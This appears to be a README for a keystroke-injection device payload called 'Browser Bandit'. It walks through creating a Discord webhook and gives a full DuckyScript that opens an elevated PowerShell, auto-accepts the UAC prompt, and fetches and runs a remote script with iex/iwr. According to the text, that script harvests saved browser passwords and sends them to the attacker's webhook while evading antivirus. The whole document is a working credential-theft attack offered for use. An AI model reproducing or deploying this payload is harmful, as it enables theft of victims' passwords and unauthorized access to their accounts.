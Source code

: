 ## **Browser Bandit (SignalStrike)**


Requirements:

    hardware: Code-382 SignalStrike (store)
    Attacker: Windows/Linux/MacOS/Android/iOs with Discord installed
    Target: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 Signal Strike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a .txt file, which is then transmitted to the attacker’s Discord Webhook.

1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

    Create a new Discord server (if you don’t have one already).
    Right-click on the server icon and select Server Settings.
    Navigate to Integrations > New Webhook.

    Copy the webhook link and save it somewhere safe for later use.

2. Download Payload.txt

Next, you need to download Payload.taxt. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the Payload.txt file, locate line 12 and replace <DISCORD WEBHOOK HERE> with your actual Discord webhook URL (without the angle brackets <>).

Payload.txt (Code-382 Github)

DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it “Browser Bandit.”
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.
